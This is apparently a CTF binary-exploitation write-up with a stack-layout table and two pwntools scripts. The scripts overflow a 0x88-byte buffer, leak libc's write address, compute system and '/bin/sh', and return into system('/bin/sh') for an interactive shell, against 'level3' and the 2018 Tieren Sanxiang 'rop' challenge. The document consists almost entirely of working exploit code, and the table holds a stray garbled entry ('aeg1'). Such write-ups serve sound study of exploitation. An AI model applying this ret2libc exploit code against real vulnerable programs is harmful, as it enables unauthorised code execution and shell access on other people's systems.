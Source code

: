 > payload1

| rbp  |             |       |      |
| ---- | ----------- | ----- | ---- |
|      | padding     |       | 0x88 |
|      |             | leave | 0x4  |
|      | system_addr | ret   |      |
|      | 0xdeadbeef  |       |      |
|      | bin_sh_addr |       | aeg1 |

> payload2

```python
from pwn import *
#context.log_level = 'debug'
io = process('./level3')
#io = gdb.debug('./level3','break main')
elf = ELF('./level3')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)
io.sendline(payload1)
io.recvuntil('Input:\n')
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))
baseoffset = write_addr - Lib.sym['write']
sys_addr = baseoffset + Lib.sym['system']
bin_sh_addr = baseoffset + next(Lib.search(b'/bin/sh'))
payload2 = b'A'*(0x88+0x4)+p32(sys_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```

# 铁人三项(第五赛区)_2018_rop

- 函数参数劫持

- `32`位泄露`libc`

```python
from pwn import *
context.log_level = 'debug'
#io = gdb.debug('./2018_rop','break *0x8048474')
io = process('./2018_rop')
elf = ELF('./2018_rop')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
padding = 0x88
payload1 = b'A'*(padding+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)
io.sendline(payload1)
write_addr = u32(io.recv(4))
print('write_addr -> ',hex(write_addr))
Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = next(Lib.search(b'/bin/sh'))+Liboffset
payload2 = b'A'*(padding+0x4)+p32(sys_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
io.sendline(payload2)
io.interactive()
```
